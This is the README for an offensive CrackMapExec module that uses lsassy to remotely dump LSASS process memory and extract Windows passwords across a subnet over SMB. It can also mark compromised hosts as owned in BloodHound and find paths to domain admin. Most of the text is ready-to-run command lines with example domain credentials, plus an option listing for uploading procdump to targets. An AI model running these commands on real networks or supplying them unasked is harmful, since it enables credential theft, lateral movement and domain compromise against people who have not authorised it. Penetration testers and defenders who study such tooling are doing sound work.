 # Lsassy CrackMapExec Module

This CME module uses **lsassy** to remotely extract lsass password, and optionnaly interacts with Bloodhound to **set compromised hosts as owned** and check if compromised users have a **path to domain admin**.

![CME Module example](/assets/cme_lsassy.gif)

## Requirements

* Python2.7
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* Python3.6+
  - [lsassy](https://github.com/Hackndo/lsassy/)


## Installation

* Copy `lsassy.py` in `[CrackMapExec Path]/cme/modules`
* Reinstall CrackMapExec using python2.7 `python setup.py install`

## Usage

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

You can set BloodHound integration using `-o BLOODHOUND=True` flag. This flag enables differents checks :
* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a **path to domain admin**

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            TMP_DIR             Path where process dump should be saved on target system (default: C:\Windows\Temp\)
            SHARE               Share to upload procdump and dump lsass (default: C$)
            PROCDUMP_PATH       Path where procdump.exe is on your system (default: /tmp/)
            PROCDUMP_EXE_NAME   Name of the procdump executable (default: procdump.exe)
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')

```

Options can be set using

```bash
cme smb dc01.adsec.local -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o PROCDUMP_PATH='/home/pixis/Tools/' PROCDUMP_EXE_NAME='procdump.exe'
```

Have fun
